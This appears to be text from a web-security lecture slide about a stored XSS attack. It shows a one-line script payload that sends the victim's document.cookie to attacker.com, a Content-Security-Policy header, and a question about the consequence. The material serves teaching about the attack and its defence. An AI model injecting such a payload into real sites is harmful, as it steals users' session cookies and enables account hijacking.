

# Stored XSS attack on example 2
Attacker leaves a message like this:
<script>window.location = “http://attacker.com?cookie=” + document.cookie; </script>

Content-Security-Policy: script-src ‘self’ trusted.com
what’s the consequence of this attack?